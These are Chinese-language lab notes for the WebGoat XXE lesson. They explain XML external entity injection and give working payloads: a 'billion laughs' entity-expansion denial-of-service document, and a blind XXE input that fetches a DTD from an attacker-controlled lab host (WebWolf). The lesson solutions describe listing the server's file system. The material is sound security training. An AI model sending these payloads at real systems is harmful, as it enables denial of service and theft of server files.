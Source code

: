 # XXE

### 概念

这节课将教您如何执行XML外部实体攻击，以及如何滥用和保护它。

**目标**

- 用户应该具有基本的XML知识

- 用户将理解XML解析器是如何工作的

- 用户将学习执行XXE攻击和如何保护它

  

[XML实体注入学习](jianshu.com/p/a1ea825aa485)

### 什么是XML实体?

XML都是固定好的

XML实体允许定义将在解析XML文档时由内容替换的标记。一般有三种实体:

- 内部实体

- 外部实体

- 参数实体。

一个实体必须在文档类型定义(Document Type Definition,DTD)中创建，让我们从一个例子开始:

```xml
<?xml version="1.0" standalone="yes" ?>

<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>  <-- #PCDATA 类型-->
  <!ELEMENT 班级 (学生+)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

所以无论你在哪里使用实体&js;解析器将用实体中定义的值替换它。

### 什么是XXE（XML External Entity Injection 即xml外部实体注入）注入?

XML外部实体攻击，是针对解析XML输入的应用程序的一种攻击。当包含对外部实体的引用的XML输入被弱配置的XML解析器处理时，就会发生这种攻击。这种攻击可能导致机密数据泄露、拒绝服务、服务器端请求伪造、从解析器所在机器的角度进行端口扫描，以及其他系统影响。

攻击可以包括使用系统标识符中的file:  scheme或相对路径公开本地文件，这些文件可能包含密码或私有用户数据等敏感数据。由于攻击是相对于处理XML文档的应用程序发生的，所以攻击者可以使用这个受信任的应用程序转向其他内部系统，可能通过http(s)请求披露其他内部内容，或者对任何未受保护的内部服务发起CSRF攻击。在某些情况下，可以通过解除对恶意URI的引用来利用容易出现客户端内存损坏问题的XML处理器库，这可能允许在应用程序帐户下执行任意代码。其他攻击可以访问可能不会停止返回数据的本地资源，如果没有释放太多的线程或进程，可能会影响应用程序的可用性。



一般来说，我们可以区分以下类型的XXE攻击:

- Classic:在这种情况下，外部实体包含在局部DTD中

- Blind:响应中不显示输出和错误

- Error :尝试在错误消息中获取资源的内

### 现代其他框架

在现代REST框架中，服务器可能能够接受您作为开发人员没有考虑到的数据格式。因此，这可能导致JSON端点容易受到XXE攻击。



# XXE DOS 攻击

什么是DOS攻击

 使用相同的XXE攻击，我们可以对服务器执行DOS服务攻击。这种攻击的一个例子是: 

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

当XML解析器加载这个文档时，它会看到它包含一个根元素“lolz”，其中包含文本“&lol9;”。然而，“&lol9”是一个被定义的实体，它扩展成一个包含10个“&lol8”字符串的字符串。每个“&lol8”字符串都是一个已定义的实体，它扩展为10个“&lol7”字符串，依此类推。在处理完所有的实体扩展之后，这一小块(< 1 KB) XML实际上将占用近3 gb的内存。

这被称为“十亿笑”，更多信息可以在这里找到:https://en.wikipedia.org/wiki/billion_laughing



### Blind XXE

在某些情况下，您将看不到任何输出，因为尽管您的攻击可能已经奏效，但该字段并未反映在页面的输出中。 或者您尝试读取的资源包含非法XML字符，这会导致解析器失败。 让我们从一个示例开始，在这种情况下，我们引用一个由我们自己的服务器控制的外部DTD。 

作为攻击者，您可以控制WebWolf（可以是您控制下的任何服务器。），例如，您可以使用该服务器通过http://192.168.56.101:9090/landing对其进行ping操作

我们如何使用此端点来验证我们是否可以执行XXE？ 

我们可以再次使用WebWolf托管一个名为Attack.dtd的文件，并使用以下内容创建该文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://192.168.56.101:9090/landing'>
```

 现在提交表单，将xml更改为： 

```
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://192.168.56.101:9090/WebWolf/files/attack.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
```

 现在在WebWolf浏览到“传入请求”，你会看到 

```
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
```

 所以有了XXE，我们可以ping我们自己的服务器，这意味着XXE注入是可能的。所以使用XXE注入我们基本上可以达到和开始使用curl命令时一样的效果。 



# 解题

* lesson3

  

 在提交表单时，您将在照片中添加一条注释，并尝试执行带有注释字段的XXE注入。试着列出文件系统的根目录。 

![](img/XEE1.png)

* lesson4

  修改content-Type类型json修改为xml

  ![](img/XEE3.png)

  ![](img/XEE2.png)
  
  